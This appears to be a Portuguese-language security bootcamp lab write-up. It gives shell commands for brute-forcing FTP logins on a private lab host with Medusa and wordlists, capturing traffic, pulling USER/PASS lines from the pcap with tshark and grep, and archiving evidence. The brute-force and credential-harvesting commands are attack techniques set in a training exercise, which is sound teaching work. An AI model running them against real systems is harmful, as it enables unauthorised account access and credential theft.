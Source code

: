 ### Brute-force FTP (Medusa)

```bash
medusa -M ftp -h 192.168.56.101 -U ~/bootcamp_medusa/users_final.txt -P ~/bootcamp_medusa/passwords_final.txt -t 8 -vV |& tee ~/bootcamp_medusa/medusa_ftp_$(date +%F_%H%M%S).log
```

### Parar captura e inspecionar pcap

```bash
# parar tcpdump com Ctrl+C (no terminal do tcpdump)
ls -lh ~/bootcamp_medusa/capture_*.pcap
# inspecionar (exemplo)
tcpdump -r ~/bootcamp_medusa/capture_eth1_2025-10-07_191609.pcap -nn -tt | head -n 80

# extrair comandos/respostas FTP com tshark (gera tabela)
# (requer tshark)

tshark -r ~/bootcamp_medusa/capture_eth1_*.pcap -Y ftp -T fields -e frame.time_epoch -e ip.src -e ip.dst -e ftp.request.command -e ftp.request.arg -e ftp.response.code -e ftp.response.arg > ~/bootcamp_medusa/ftp_traffic_extracted.tsv

# filtrar USER/PASS
grep -iE "USER|PASS" ~/bootcamp_medusa/ftp_traffic_extracted.tsv | sed -n '1,200p' > ~/bootcamp_medusa/ftp_userpass_found.txt
cat ~/bootcamp_medusa/ftp_userpass_found.txt
```

### Evidência: salvar lista anônima do FTP (não interativo)

```bash
ftp -n 192.168.56.101 <<'EOF' > ~/bootcamp_medusa/ftp_anonymous_ls_$(date +%F_%H%M%S).txt 2>&1
user anonymous test@example.com
ls
bye
EOF
```

### Screenshot (terminal)

```bash
gnome-screenshot -w -f ~/bootcamp_medusa/screenshot_terminal_$(date +%F_%H%M%S).png
scrot ~/bootcamp_medusa/screenshot_full_$(date +%F_%H%M%S).png
```

### Compactar evidências

```bash
zip -r bootcamp_medusa_evidences_$(date +%F_%H%M%S).zip *.log *.pcap *.png *.txt
```

---

## Saídas / resultados relevantes (extraídas das capturas e comandos)
